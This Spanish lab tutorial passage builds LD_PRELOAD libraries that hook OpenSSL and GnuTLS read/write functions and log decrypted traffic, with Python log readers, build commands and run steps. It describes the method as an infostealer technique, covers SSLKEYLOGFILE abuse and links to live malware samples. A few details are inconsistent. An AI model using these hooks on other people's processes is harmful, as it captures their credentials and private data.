    - https://bazaar.abuse.ch/browse.php?search=tag%3Adridex
  
- Malware que manipula SSLKEYLOGFILE: Esta variable de entorno es una herramienta de depuración legítima. Sin embargo:
  - Malware de persistencia: Algunos atacantes no instalan un troyano complejo, sino que simplemente configuran la variable de entorno SSLKEYLOGFILE en el sistema de la víctima de forma oculta.

  - Efecto: A partir de ese momento, cada vez que la víctima usa el navegador, este guarda automáticamente todas las llaves de descifrado en un archivo oculto que el malware luego envía al servidor del atacante (C2).


------------------------

# Técnica 5: Hook a la librería TLS - Tipo infostealer

## Implementación de la librería ssl_hook.c

Esta librería define funciones con el mismo nombre y firma que las funciones reales de las librerías criptográficas (como SSL_read y SSL_write en OpenSSL, o gnutls_record_recv en GnuTLS). Cuando una aplicación intenta enviar o recibir datos, el sistema operativo es "engañado" mediante LD_PRELOAD para que ejecute nuestra versión fake de la función en lugar de la oficial.


Una vez que la librería se ha inyectado con éxito en el espacio de memoria del proceso, esta obtiene acceso directo a los buffers de datos en texto claro, operando en tres fases críticas:
  - Intercepción en el Envío: Captura el contenido de los paquetes justo antes de que se ejecuten los algoritmos de cifrado de la librería criptográfica (OpenSSL/GnuTLS).
  - Intercepción en la Recepción: Captura la información en el momento exacto en que la librería real termina de descifrar los bytes recibidos de la red, garantizando acceso a los datos antes de que lleguen a la lógica interna de la aplicación.
  - Persistencia y Exfiltración (El Log): Los bytes interceptados se vuelcan de forma asíncrona hacia un archivo o tubería (FIFO) en /tmp/ssl_intercept.log. Este mecanismo permite que herramientas externas de análisis dinámico, como el script Python que se desarrollará en el siguiente apartado, procesen, etiqueten y visualicen el tráfico en tiempo real.


Para que la aplicación no se bloquee ni sospeche que algo va mal, la librería utiliza la función `dlsym(RTLD_NEXT, ...)`. Esto le permite encontrar la dirección de memoria de la función original y verdadera. Después de copiar los datos para el log, esta librería fake llama a la función real para que la comunicación continúe normalmente hacia el servidor.


### Código Fuente: ssl_hook.c
```
#define _GNU_SOURCE
#include <stdio.h>
#include <dlfcn.h>
#include <openssl/ssl.h>
#include <unistd.h>
#include <fcntl.h>

// Punteros para almacenar las funciones originales de OpenSSL
static int (*real_SSL_read)(SSL *ssl, void *buf, int num) = NULL;
static int (*real_SSL_write)(SSL *ssl, const void *buf, int num) = NULL;

// Función auxiliar para registrar los datos interceptados en un fichero
void log_data(const char *prefix, const void *buf, int num) {
    int fd = open("/tmp/ssl_intercept.log", O_WRONLY | O_APPEND | O_CREAT, 0644);
    if (fd != -1) {
        write(fd, prefix, 10);
        write(fd, buf, num);
        write(fd, "\n---\n", 5);
        close(fd);
    }
}

// Interceptación de SSL_write (Datos antes de ser cifrados)
int SSL_write(SSL *ssl, const void *buf, int num) {
    if (!real_SSL_write) {
        real_SSL_write = dlsym(RTLD_NEXT, "SSL_write");
    }
    
    // Memory Scraping: Capturamos el buffer antes de enviarlo a la función real
    log_data("[WRITE]   ", buf, num);
    
    return real_SSL_write(ssl, buf, num);
}

// Interceptación de SSL_read (Datos después de ser descifrados)
int SSL_read(SSL *ssl, void *buf, int num) {
    if (!real_SSL_read) {
        real_SSL_read = dlsym(RTLD_NEXT, "SSL_read");
    }

    // Llamamos a la función real para que OpenSSL haga el descifrado
    int result = real_SSL_read(ssl, buf, num);

    // Si la lectura fue exitosa, registramos el buffer ya descifrado
    if (result > 0) {
        log_data("[READ ]   ", buf, result);
    }

    return result;
}
``` 


### Compilación
Compilación como una librería compartida:
```
gcc -shared -fPIC -o ssl_hook.so ssl_hook.c -ldl
```


### Técnica de API Spoofing vía LD_PRELOAD
Uso de la técnica API Hooking: `LD_PRELOAD=./ssl_hook.so curl https://www.google.com`


**La técnica conocida como API Hooking o Inyección de Librerías en Tiempo de Ejecución:** Su objetivo no es interceptar el tráfico en el cable, sino "secuestrar" las funciones de red dentro de la memoria RAM del propio programa. 
donde:
- `LD_PRELOAD`: Es una variable de entorno del cargador dinámico de Linux. Le indica al sistema: "Antes de cargar las librerías estándar (como OpenSSL), carga obligatoriamente esta librería que te doy". Es como darle un pase VIP a nuestro código para que llegue primero a la fila.
- `./ssl_hook.so`: Es el archivo binario que compilamos desde el código en C. Contiene las versiones "falsas" de las funciones SSL_read y SSL_write.
- `curl https://www.google.com`: Es la aplicación víctima. curl cree que está funcionando normalmente, sin saber que sus herramientas de cifrado han sido sustituidas.
- `curl` llamaría directamente a la librería oficial de OpenSSL. Con este comando, el flujo cambia radicalmente:
  - La llamada: curl necesita enviar datos a Google y llama a la función SSL_write.
  - El desvío: Gracias a LD_PRELOAD, el sistema no va a OpenSSL, sino que ejecuta la función SSL_write dentro de ssl_hook.so.
  - El espionaje (Memory Scraping): Nuestra función toma el mensaje en texto claro (antes de que sea cifrado), lo copia y lo escribe en el archivo /tmp/ssl_intercept.log.
  - La normalidad: Para que curl no sospeche y la conexión no se rompa, la librería usa `dlsym(RTLD_NEXT, ...)` para pasarle el mensaje a la función real de OpenSSL y que esta lo envíe a Internet.
- Esta técnica es la que utilizan familias de malware como ZeuS, Dridex o RedLine Stealer para robar información. Sus ventajas:
  - Invisible para la red: Si analizamos el tráfico Wireshark, se verá tráfico TLS 1.3 perfectamente cifrado. El robo ocurre en la RAM, no en el cable.
  - Sin alertas de certificado: A diferencia de mitmproxy, aquí no hay certificados falsos ni advertencias de "Conexión no segura". curl utiliza el certificado real de Google porque el túnel TLS hacia el exterior es legítimo.
  - Independiente de la versión de TLS: Como leemos los datos antes de que la librería los procese, siempre los veremos en texto plano.


El uso de LD_PRELOAD permite realizar una interceptación de la Capa de Aplicación mediante la técnica de `API Spoofing`. Al cargar la librería personalizada ssl_hook.so antes que las librerías del sistema, se logra el acceso a los buffers de memoria de las funciones SSL_read y SSL_write, permitiendo el registro de datos sensibles (como cabeceras HTTP o credenciales) de forma transparente para el usuario y el protocolo de red.


### Ver los datos descifrados
```
cat /tmp/ssl_intercept.log
```


## Programa Python para leer los logs: ssl_analyzer.py

Este script en Python se encarga de consumir el fichero de log /tmp/ssl_intercept.log que es donde se vuelcan los datos y reconstruye el texto plano observado en el endpoint. Mientras la librería en C realiza el trabajo sucio de interceptar la memoria (Memory Scraping), este script procesará los datos para darles un formato legible.


Código del script ssl_analyzer.py:
```
import os
import sys
import time
from datetime import datetime

# Ruta del archivo o FIFO generada por el Hook en C
LOG_PATH = "/tmp/ssl_intercept.log"

def analyze_traffic():
    print(f"[*] Iniciando análisis de tráfico SSL/TLS descifrado...")
    print(f"[*] Monitoreando: {LOG_PATH}\n" + "-"*60)

    # Verificamos si el archivo existe antes de empezar
    if not os.path.exists(LOG_PATH):
        # Si es un fichero, lo creamos; si es FIFO, esperamos a que el Hook lo abra
        open(LOG_PATH, 'a').close()

    try:
        with open(LOG_PATH, 'r', errors='replace') as f:
            # Ir al final del archivo si es un log persistente
            f.seek(0, 2)
            
            while True:
                line = f.readline()
                if not line:
                    time.sleep(0.1)  # Evitar consumo excesivo de CPU
                    continue

                # Parseo de metadatos
                timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
                
                if "[WRITE]" in line:
                    direction = "\033[91m[SENT]\033[0m"  # Rojo para datos salientes
                    content = line.replace("[WRITE]   ", "").strip()
                elif "[READ ]" in line:
                    direction = "\033[92m[RECV]\033[0m"  # Verde para datos entrantes
                    content = line.replace("[READ ]   ", "").strip()
                else:
                    continue

                # Mostrar información formateada
                if content and content != "---":
                    print(f"[{timestamp}] {direction} | Data: {content[:100]}...")
                    
    except KeyboardInterrupt:
        print("\n[*] Análisis finalizado por el usuario.")
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    analyze_traffic()
```


## Ejecución del Laboratorio Completo
Para ver el sistema funcionando íntegramente (Técnica de Intercepción en Memoria + Análisis Externo), seguimos este orden:
- Terminal 1 (): Compilar como librería compartida: `gcc -shared -fPIC -o ssl_hook.so ssl_hook.c -ldl`   
- Terminal 1 (Analizador): Lanzamos el script de Python: `python3 ssl_analyzer.py`.
  
- Terminal 2 (Ataque/Auditoría): Ejecutamos una aplicación cargando la librería de C: `LD_PRELOAD=./ssl_hook.so curl -s https://www.cloudflare.com > /dev/null`.
  
- Vemos el trafico descifrado:
  
  Vemos que empieza a mostrar el contenido que curl está procesando en memoria ANTES de cifrarlo:
    - [SENT] (Rojo)	Intercepción de SSL_write: Vemos la petición del cliente. El mensaje PRI * HTTP/2.0... es el prefacio de conexión de HTTP/2, indicando que la comunicación es moderna y eficiente.
    - [RECV] (Verde)	Intercepción de SSL_read: Vemos el contenido descargado. Se lee perfectamente el <!doctype html><html ...>, que es el código fuente real de la página de Google.


## Empleando esta técnica 5 en el cliente kdig
Para aplicar la técnica del Stealer (el Hook en memoria) al de kdig, ya no necesitamos "engañar" a la red con certificados falsos ni usar el puerto 8080. Como ahora estás interceptando la librería de funciones dentro de tu propio ordenador, podemos atacar la comunicación directamente mientras sale hacia el servidor real de Cloudflare.

Sabemos que con la herramienta kdig, obteniamos: `;; DEBUG: TLS session (TLS1.3)-(ECDHE-X25519)-(ECDSA-SECP256R1-SHA256)-(AES-256-GCM)`. Ese formato de nombrar la Cipher Suite es característico de GnuTLS, no de OpenSSL. La librería ssl_hook.c está diseñada para interceptar SSL_read y SSL_write (funciones de OpenSSL), pero kdig está utilizando `gnutls_record_recv` y `gnutls_record_send`. Por eso, aunque el "stealer" está inyectado, nunca ve pasar los datos porque "vigila la puerta equivocada".

Para solucionar esto y completar tu laboratorio con kdig, debemos adaptar la técnica de API Spoofing a GnuTLS:
- Nueva librería: gnutls_hook.c
```
#define _GNU_SOURCE
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

// Definición de tipos para las funciones originales de GnuTLS
typedef ssize_t (*gnutls_func)(void *session, void *data, size_t data_size);

void log_data(const char *prefix, const void *buf, size_t num) {
    int fd = open("/tmp/ssl_intercept.log", O_WRONLY | O_APPEND | O_CREAT, 0644);
    if (fd != -1) {
        write(fd, prefix, 10);
        write(fd, buf, num);
        write(fd, "\n---\n", 5);
        close(fd);
    }
}

// Interceptación de envío (Equivalente a SSL_write)
ssize_t gnutls_record_send(void *session, const void *data, size_t data_size) {
    static gnutls_func real_send = NULL;
    if (!real_send) real_send = dlsym(RTLD_NEXT, "gnutls_record_send");
    
    log_data("[SENT ]   ", data, data_size);
    return real_send(session, (void*)data, data_size);
}

// Interceptación de recepción (Equivalente a SSL_read)
ssize_t gnutls_record_recv(void *session, void *data, size_t data_size) {
    static gnutls_func real_recv = NULL;
    if (!real_recv) real_recv = dlsym(RTLD_NEXT, "gnutls_record_recv");

    ssize_t result = real_recv(session, data, data_size);
    if (result > 0) {
        log_data("[RECV ]   ", data, result);
    }
    return result;
}
```


- Compilación de esta nueva librería: `gcc -shared -fPIC -o gnutls_hook.so gnutls_hook.c -ldl`.


- Nuevo script de Python. Necesitamos que el script de Python convierta los datos a un formato Hexdump: `ssl_analyzer_gnutls.py`
```
import os
import time
import binascii
from datetime import datetime

LOG_PATH = "/tmp/ssl_intercept.log"

def hexdump(data):
    # Función para mostrar hex y ascii al lado, como en Wireshark/mitmproxy
    try:
        hex_part = binascii.hexlify(data.encode('latin1', 'replace')).decode()
        readable = "".join([c if 32 <= ord(c) <= 126 else "." for c in data])
        return f"{hex_part[:40]}... | {readable[:30]}"
    except:
        return "[Error al procesar binario]"

def analyze_traffic():
    print(f"[*] Analizador Forense de Memoria (DNS-over-TLS) iniciado...")
    print(f"[*] Monitoreando: {LOG_PATH}\n" + "-"*70)

    if not os.path.exists(LOG_PATH):
        open(LOG_PATH, 'a').close()

    try:
        f = open(LOG_PATH, 'r', errors='replace')
        f.seek(0, 2)
        
        while True:
            line = f.readline()
            if not line:
                time.sleep(0.1)
                continue

            timestamp = datetime.now().strftime("%H:%M:%S")
            
            if "[SENT ]" in line:
                direction = "\033[91m[SENT]\033[0m"
                raw_data = line.replace("[SENT ]   ", "").strip()
                print(f"[{timestamp}] {direction} {hexdump(raw_data)}")
            elif "[RECV ]" in line:
                direction = "\033[92m[RECV]\033[0m"
                raw_data = line.replace("[RECV ]   ", "").strip()
                print(f"[{timestamp}] {direction} {hexdump(raw_data)}")
                    
    except KeyboardInterrupt:
        print("\n[*] Fin del análisis.")

if __name__ == "__main__":
    analyze_traffic()
``` 


- Ejecutamos el nuevo script de Python: `python3 ssl_analyzer_gnutls.py`

- Ejecutamos kdig con el nuevo hook:
```
LD_PRELOAD=$PWD/gnutls_hook.so kdig -d @1.0.0.1 +tls +tls-host=one.one.one.one cloudflare.com
```


donde:
- [HOOK] Interceptando envío de datos... [HOOK] Interceptando recepción de datos...:  Esto confirma que la librería en C está "atrapando" las funciones de GnuTLS en tiempo real.


- Vemos la captura del tráfico descifrado en el script de python que muestra el tráfico DESCRIFRADO en hexadecimal:

donde:
  - Vemos en pantalla es la representación hexadecimal de los datos que kdig procesó en su memoria RAM antes de enviarlos a la red.
  - Protocolo Binario: A diferencia de HTTP (que es texto claro), el protocolo DNS utiliza campos de longitud fija y etiquetas binarias.
  - Contenido: Los puntos (.) en la columna de la derecha indican caracteres no imprimibles. Sin embargo, en la columna hexadecimal, cadenas como 0001 (que verás en el cuerpo) indican que se trata de una consulta de tipo A (IPv4).
  - Éxito del Hook: Los mensajes amarillos y verdes de [HOOK] que viste anteriormente confirmaron que lograste "pinchar" la librería GnuTLS, algo mucho más complejo que interceptar OpenSSL.
  - [SENT]: bytes que el proceso envió a través del canal TLS.
  - [RECV]: bytes que el proceso recibió ya descifrados desde TLS.
  - [SENT] 003f... → 0x003f = 63 bytes (longitud del mensaje DNS que viene detrás)
  - [RECV] 013f... → 0x013f = 319 bytes (longitud del mensaje DNS de respuesta)
  - 3f38 0120 0001 .... → 
    - Transaction ID (2 bytes): en tu salida empieza por 3f38… → es el ID de la consulta.
    - Flags (2 bytes): en el ejemplo aparece 0120 (la interpretación exacta de bits depende del valor real alineado, pero conceptualmente es el campo de flags).
    - QDCOUNT / ANCOUNT / NSCOUNT / ARCOUNT (2 bytes cada uno): contadores de preguntas/respuestas/etc.
    - En las respuestas suele verse que ANCOUNT > 0 (hay respuestas).
    - Se observa el framing de DoT (prefijo de 2 bytes con longitud): 0x003f en consultas y 0x013f en respuestas.
    - Los Transaction IDs (0x3f38, 0x2c51) coinciden entre consulta y respuesta, confirmando correlación dentro del túnel TLS.
    - QDCOUNT=1 en consultas, ANCOUNT=2 en respuestas y ARCOUNT=1 indica presencia de EDNS(0)/OPT.


--------------------------

# Labs de interés sobre Infostealers o Memory scrapers 
## Tusk Infostealer de CyberDefenders
https://cyberdefenders.org/blueteam-ctf-challenges/tusk-infostealer/

Este es uno de los laboratorios más completos y recientes (finales de 2025) para entender la anatomía de un robo de información masivo.
- Escenario: Una campaña dirigida a organizaciones de blockchain que utiliza infostealers como StealC y Danabot.
- Se aprende sobre: Análisis de indicadores de compromiso (IoCs) y hashes de malware.
- Rastreo de infraestructura de C2 (Comando y Control).
- Identificación de técnicas de "Clipper" (manipulación del portapapeles) y robo de billeteras cripto.

## TryHackMe: Módulos de Malware & Memory Forensics
- Sala: "REMnux - The Redux": Incluye un apartado de Memory Forensics donde analizas a una víctima de malware usando herramientas como Volatility.
- Módulo: "Malware Analysis": Enseña a identificar funciones maliciosas en binarios y cómo estas interactúan con las APIs de Windows para descargar payloads o exfiltrar datos.
  

## Hack The Box: Sherlocks & Machines
HTB ha introducido los retos "Sherlocks", que son investigaciones forenses de gran calidad basadas en casos reales.
- Sherlock: "Brutus" o "Unit42": Aunque varían, suelen implicar el análisis de archivos de volcado de memoria de servicios comprometidos o auditoría de logs para detectar exfiltración de datos.


------------------------

# Ejemplos en theZoo - A Live Malware Repository

En el repositorio theZoo, podemos encontrar varias familias de malware que, aunque técnicamente no "descifran" el protocolo TLS (en el sentido de romper el cifrado), utilizan técnicas de intercepción (como el hooking de APIs) para leer los datos en texto claro antes de que se cifren o después de que se descifren.

Esta es la misma técnica de API Hooking que acabamos de implementar con la librería ssl_hook.c y LD_PRELOAD.


## ZeuS (Zbot)
Es uno de los troyanos bancarios más famosos y está disponible en varias versiones dentro del repositorio.

Técnica: Utiliza form-grabbing e intercepción mediante Man-in-the-Browser (MitB).

Funcionamiento: Inyecta código en el navegador de la víctima (como Internet Explorer o Firefox) para interceptar las funciones de red (como PR_Write de la librería NSS o las APIs de Wininet). De esta manera, el malware puede leer los datos de formularios bancarios justo antes de que el navegador los envíe a través del túnel TLS.

Ubicación en theZoo: [malware/Binaries/ZeusBankingVersion_26Nov2013.](https://github.com/ytisf/theZoo/tree/master/malware/Binaries/ZeusBankingVersion_26Nov2013)

## Dridex
Este malware es un sucesor espiritual de otros troyanos bancarios y también se encuentra en theZoo. Dridex (también conocido como Cridex o Bugat)

Técnica: Se especializa en el hooking de APIs de Windows relacionadas con las comunicaciones de red.

Funcionamiento: Al igual que ZeuS, intercepta las funciones que manejan las peticiones HTTP/HTTPS para exfiltrar credenciales bancarias antes de que sean protegidas por la capa de transporte.

Ubicación en [theZoo: Busca en la carpeta malware/Binaries/Dridex.](https://bazaar.abuse.ch/browse/tag/Dridex/)


## Carberp
Un troyano bancario sofisticado que también utiliza técnicas de intercepción de tráfico.

Técnica: Utiliza componentes complejos para crear pilas TCP/IP ocultas y realizar intercepción de datos de sesión.

Funcionamiento: Es conocido por su capacidad de realizar capturas de datos directamente desde la memoria del proceso del navegador, evitando así tener que lidiar con el cifrado TLS en el cable.

Ubicación en MalwareBazaar: [MalwareBazaar Carberp](https://github.com/ytisf/theZoo/tree/master/malware/Source/Original/Carberp)


## Dyre / TrickBot
TrickBot (que tiene similitudes con Dyre) es otro ejemplo de malware modular presente en repositorios de análisis.

Técnica: Dyre fue pionero en interceptar el tráfico HTTPS mediante el uso de una técnica de redirección local y hooking de navegadores para extraer datos de aplicaciones web seguras.


Ubicación: https://github.com/ytisf/theZoo/tree/master/malware/Binaries/Dyre